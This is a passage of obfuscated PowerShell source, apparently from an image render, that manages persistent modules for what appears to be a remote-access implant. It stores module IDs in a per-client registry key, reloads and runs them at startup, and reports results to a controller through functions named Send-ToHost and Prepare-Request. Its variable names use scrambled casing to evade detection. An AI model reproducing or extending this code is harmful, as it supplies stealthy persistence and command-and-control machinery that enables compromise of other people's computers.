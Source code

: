```csharp
              ${tOsaVe} = ${alrEAdyaCtIVE}."TM" + ${mODUleiD}
              if(&("Run-Module") ${rAwModUleId} ${INtERNAlUSeRId} ${iNtErNAlUsERKeY})
              {&("New-ItemProperty") -Path ${PATh} -Name ${ModULesKey} -Value ${tosAVe}  -PropertyType ("String") -Force | &("Out-Null")}
            }
        }
        else 
        {
            if(&("Run-Module") ${raWMODuLEID} ${INterNAlUsErID} ${iNTerNALuSeRkey}) 
            { &("New-ItemProperty") -Path ${pATh} -Name ${mODUlesKey} -Value ${MODULEID} -PropertyType ("String") -Force | &("Out-Null")}
        }
        if(${res}."lengtH" -gt 0) 
        {
            ${lOG} = &("Generate-Log") ${REs}
            ${lOg_UPlOAD} = &("Prepare-Request") ${loG} ${INTeRNaLuSERId} ${INTerNAlUserkey}
            &("Send-ToHost") ${lOG_UplOAd}
        }
}
function ReMOVe-PerSiSTmodULe 
{
    param(${raWmoDULEId}, ${iNTerNalUserId}, ${iNTERNAlUserkeY})
        ${rEs} = ''
        ${ModULEiD} = "{" + ${RAWmoDuLeID} + "}"
        ${cLIENtId} = &("Get-ClientID")
        ${PaTH} = ${rEgIstRypaTh} + ${clieNTid}
        ${alReAdyAcTIVe} = &("Get-ItemProperty") -Path ${PATh} -Name ${moDULESKey} -ErrorAction ("SilentlyContinue")
        if(${ALREaDYActive}) 
        {
           if(${AlreaDYACtiVe}."Tm".("contains").Invoke(${MODulEiD})) 
           {
                ${TOsavE} = ${ALREADyACTiVE}."tM".("replace").Invoke(${moDULeid}, "")
                &("New-ItemProperty") -Path ${PATH} -Name ${MoDuLesKey} -Value ${TOsAVe}  -PropertyType ("String") -Force | &("Out-Null")
                ${rEs} = "module_removed"
           }
           else {  ${rEs} = "can't_find_this_module" }
        }
        else { ${RES} = "nothing_to_remove" }
        if(${ReS}."lENGTh" -gt 0) 
        {
            ${log} = &("Generate-Log") ${REs}
            ${Log_UplOAd} = &("Prepare-Request") ${LOg} ${iNTeRnALUseRid} ${InterNaLusERkEy}
            &("Send-ToHost") ${lOg_UpLOAD}
        }
}
function LOaD-ALlPeRSIsTMODulES
{
    param(${iNTErNaLUsERId}, ${iNTErNalUSERkeY})
    try{
        ${CliENtId} = &("Get-ClientID")
        ${PATh} = ${REgisTRYpATh} + ${clienTid}
        ${alreAdyaCTIVE} = &("Get-ItemProperty") -Path ${pATH} -Name ${MODuleskey} -ErrorAction ("SilentlyContinue")
        if(!${alrEADYACTiVe}) {return}
        if(${AlREADYaCtIVe}."tm"."lENgTh" -lt 1) {return}
        ${IDSaRrAy} = ${ALreadYacTiVE}."tm"."SplIT"('{',(gET-VARiAbLe ("6pl")).valUe::"REMOVEemPTyeNTrIes")
        foreach (${id} in ${idSARRAY}) {
            ${iD} = ${Id}.("replace").Invoke('}', '')
            ${Res} = &("Run-Module") ${Id} ${InTERNaLusERId} ${inTeRnAluseRkeY} ${trUe}
        }
```